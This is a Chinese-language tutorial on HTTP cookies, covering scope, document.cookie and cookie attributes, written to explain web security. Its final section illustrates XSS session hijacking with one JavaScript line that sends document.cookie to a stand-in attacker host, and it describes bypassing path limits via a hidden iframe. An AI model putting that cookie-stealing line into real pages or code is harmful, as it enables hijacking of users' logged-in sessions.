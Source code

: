 `Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly`

##### 1.1.4.Cookie 的作用域

cookie 在性质上是绑定在特定的域名之下的。当设定了一个 cookie 以后，在给创建它的域名发送请求时，都会包含这个 cookie。这个限制确保了储存在 cookie 中的信息只能让批准的接受者访问，而无法被其他域访问。

`Domain` 和 `Path` 标识定义了 Cookie 的作用域：即 Cookie 应该发送给哪些 URL。

`Domain` 标识指定了哪些主机可以接受 Cookie。如果不指定，默认为当前文档的主机（不包含子域名）。如果指定了`Domain`，则一般包含子域名。

例如，如果设置 `Domain=mozilla.org`，则 Cookie 也包含在子域名中（如`developer.mozilla.org`）。

`Path` 标识指定了主机下的哪些路径可以接受 Cookie（该 URL 路径必须存在于请求 URL 中）。以字符 `%x2F` ("`/`") 作为路径分隔符，子路径也会被匹配。

例如，设置 `Path=/docs`，则以下地址都会匹配：

- `/docs`
- `/docs/Web/`
- `/docs/Web/HTTP`

##### 1.1.5.Document.cookies

浏览器可以设置不接受 Cookie，也可以设置不向服务器发送 Cookie。 `window.navigator.cookieEnabled` 属性返回一个布尔值，表示浏览器是否打开 Cookie 功能。

`window.navigator.cookieEnabled // true`

通过 `Document.cookie` 属性可创建新的 Cookie，也可通过该属性访问非 HttpOnly 标记的 Cookie。

`document.cookie = newCookie;`

newCookie 是一个键值对形式的字符串(`xx=xxx; zz=zzz`)。使用 `document.cookie` 可以获取当前页面可用的所有 cookie 的字符串；用来设置值时，可以设置为一个新的 cookie 字符串，这个新的 cookie 字符串会被解释并添加到现有的 cookie 集合中。设置 `document.cookie` 并不会覆盖 cookie，除非设置 cookie 的名称已经存在。

- 以下可选的 cookie 属性值可以跟在键值对后，用来具体化对 cookie 的设定/更新，使用分号以作分隔：
  - `;path=path` (例如 '/', '/mydir') 如果没有定义，默认为当前文档位置的路径。用于限制指定 Cookie 的发送范围的文件目录。不过另有办法可避开这项限制，看来对其作为安全机制的效果不能抱有期待。
  - `;domain=domain` (例如 'example.com'， 'subdomain.example.com') 如果没有定义，默认为当前文档位置的路径的域名部分。与早期规范相反的是，在域名前面加 `.` 符将会被忽视，因为浏览器也许会拒绝设置这样的 cookie。如果指定了一个域，那么子域也包含在内。
  - `;max-age=max-age-in-seconds` (例如一年为 `60*60*24*365`)如果同时指定了 `Expires` 和 `Max-Age`，那么 `Max-Age` 的值将优先生效。
  - `;expires=date-in-GMTString-format` 指定浏览器可发送 Cookie 的有效期。当省略 expires 属性时，Cookie 仅在浏览器关闭之前有效。另外，一旦 Cookie 从服务器端发送至客户端，服务器端就不存在可以显式删除 Cookie 的方法。但可通过覆盖已过期的 Cookie，实现对客户端 Cookie 的实质性删除操作。(该选项的值是一个 `Wdy, DD-Mon-YYYY HH:MM:SS GMT` 日期格式的值，参见 `Date.toUTCString()`)
  - `;secure` 用于限制 Web 页面仅在 HTTPS 安全连接时，才可以发送 Cookie。
  - `;HttpOnly` 是 Cookie 的扩展功能，它使 JavaScript 脚本(主要是 `Document.cookie` 属性、`XMLHttpRequest` 对象和 Request API 都拿不到该属性)无法获得 Cookie。其主要目的为防止跨站脚本攻击（XSS）对 Cookie 的信息窃取。
- cookie 的值字符串可以用 `encodeURIComponent()` 来保证它不包含任何逗号、分号或空格(cookie 值中禁止使用这些值)。

路径限制并不能阻止从其他路径访问 cookie。 使用简单的 DOM 即可轻易地绕过限制(比如创建一个指向限制路径的，隐藏的 iframe，然后访问其 `contentDocument.cookie` 属性)。保护 cookie 不被非法访问的唯一方法是将它放在另一个域名/子域名之下，利用同源策略（注意，这里不要求协议相同）保护其不被读取。

Web 应用程序通常使用 cookies 来标识用户身份及他们的登录会话。因此通过窃听这些 cookie，就可以劫持已登录用户的会话。窃听的 cookie 的常见方法包括社会工程和 XSS 攻击 -

`(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;`

`HttpOnly` 属性可以阻止通过 javascript 访问 cookie，从而一定程度上遏制这类攻击。
